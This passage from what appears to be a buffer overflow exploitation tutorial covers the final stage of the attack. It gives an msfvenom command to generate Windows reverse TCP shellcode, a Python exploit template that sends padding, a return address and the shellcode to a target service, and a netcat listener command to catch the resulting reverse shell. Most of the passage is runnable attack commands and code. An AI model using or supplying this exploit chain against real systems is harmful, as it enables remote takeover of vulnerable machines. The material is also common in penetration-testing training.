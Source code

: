 Now that we have done all of that we now gotta generate shell code for  it, we can use msfvenom for it with command 
`msfvenom -p windows/shell_reverse_tcp LHOST=<Your ip> LPORT=<PORT> -a x86 -b <Bad characters> -f python`

note format the bad characters as "\\x00\\x52" etc.

After doing the msfvenom it should return a bunch stuff, and it should be in python because of -f python, just paste below the comment.

```python
import socket
from time import sleep

# Shellcode:


ip, port = "10.10.10.10", 9999 # Change the ip and port
offset = 0  # change this with what you got from step 2
prefix = b"" # change this if necessary and make sure theres a space at the end.
module = b"\xaf\x11\x50\x62" # Change this

try:
	s = socket.socket()
	s.connect((ip, port))
	s.send(prefix + b"A"*offset + module + buf)
except:
	print(f"Something went wrong")

s.close()
```

Now open a terminal and make a netcat listener with the port you gave before when genereting the shellcode
`nc -lnvp <PORT>`

Now execute the code and boom reverse shell.